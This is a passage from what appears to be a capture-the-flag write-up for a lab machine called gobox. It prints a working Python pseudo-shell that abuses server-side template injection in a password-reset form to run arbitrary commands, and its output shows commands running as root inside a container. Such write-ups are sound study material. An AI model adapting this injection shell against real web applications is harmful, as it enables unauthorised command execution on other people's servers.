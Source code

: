 
    class Term(Cmd):    
        prompt = "gobox> "    
        capture_re = re.compile(r"Email Sent To: (.*?)\s+<button class", re.DOTALL)    

        def default(self, args):    
            """Run given input as command on gobox"""    
            cmd = args.replace('"', '\\"')    
            resp = requests.post('http://10.10.11.113:8080/forgot/',    
                    data = {"email": f'{{{{ .DebugCmd "{cmd}" }}}}'},    
                    proxies = {"http": "http://127.0.0.1:8080"})    
            try:    
                result = self.capture_re.search(resp.text).group(1)    
                result = unescape(unescape(result))
                print(result)
            except:
                import pdb; pdb.set_trace()


        def do_exit(self, args):
            """Exit"""
            return True


    term = Term()
    term.cmdloop()



When I give it anything besides `exit`, it will make the request to run
the command and use a regex to pull the SSTI result from the returned
page.



    oxdf@parrot$ python3 shell.py 
    gobox> id
    uid=0(root) gid=0(root) groups=0(root)
    gobox> pwd
    /opt/uhc



## Shell as www-data

### Enumeration

#### Filesystem

The hostname of this system is aws:



    gobox> hostname
    aws



When `ifconfig` and `ip` are not installed on the system, it's a really
good hint that this is a container.
